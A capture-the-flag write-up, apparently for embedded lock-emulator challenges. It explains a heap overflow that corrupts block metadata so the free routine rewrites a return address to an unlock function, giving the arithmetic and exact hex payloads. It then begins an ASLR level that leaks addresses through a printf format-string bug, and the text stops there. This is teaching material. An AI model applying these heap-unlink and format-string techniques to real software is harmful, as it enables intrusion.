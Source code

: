 This is the first challenge about exploiting the heap. The heap implementation here has 6 bytes of metadata along with the accrual data. The metadata consist of `1. the previous block 2. the next block 3. the current block size plus the last bit indicates if it is in use`.

First, we are able to overflow both blocks on the heap (username and the PIN). That means the first block data could be used to override the metadata of the second block and second block data could be user to override the metadate of the third/final block.

Looking at the `free` function, we can see that it tries to merge free blocks that at next to each other. By setting the previous block of the second block to be the `return address - 0x4`, we will be able to add `current block size` (controllable) and `0x6` to it.

By doing some simple math:

```
>>> 0x4440 # current return address
17472
>>> 0x4564 # address of the unlock door function
17764
>>> 0x4564 - 0x4440 # offset
292
>>> 292 - 0x6 # get the second block size
286
>>> hex(286+0x1)
'0x11f'
```

We are able to determine that the second block needs a size of `0x11f` and the previous block have to point to `0x4396`.

To be able to ignore the next block, we will override the last bit of the ending block from `0`to `1` making it in use.

username: `4141 4141 4141 4141 4141 4141 4141 4141 9643 3424 1f01`

password: `4141 4141 4141 4141 4141 4141 4141 4141 1e24 0824 01`

# Vladivostok - 100pts

Finally... Sweet sweet ASLR!

This is the first challenge with Address Space Layout Randomisation or ASLR for short enabled.

Just like any other challenges with ASLR, we have to first leak a current address to find the relative offset. Thankfully, the program prints the `username` back to us using `printf` which makes it vulnerable to format string attacks. By doing `%x%x%x`, we are able to leak ASLR address which could then be used to calculate the relative offset:

```
> r c5de
   c5de:   0b12 0a12 0912 0812  ........
   c5e6:   0712 0612 0412 0441  .......A
   c5ee:   3450 0e00 2183 1a44  4P..!..D
   c5f6:   0200 8441 f0ff 0f4a  ...A...J
> reset
> r 476a
   476a:   0b12 0a12 0912 0812  ........
   4772:   0712 0612 0412 0441  .......A
   477a:   3450 0e00 2183 1a44  4P..!..D
   4782:   0200 8441 f0ff 0f4a  ...A...J
```
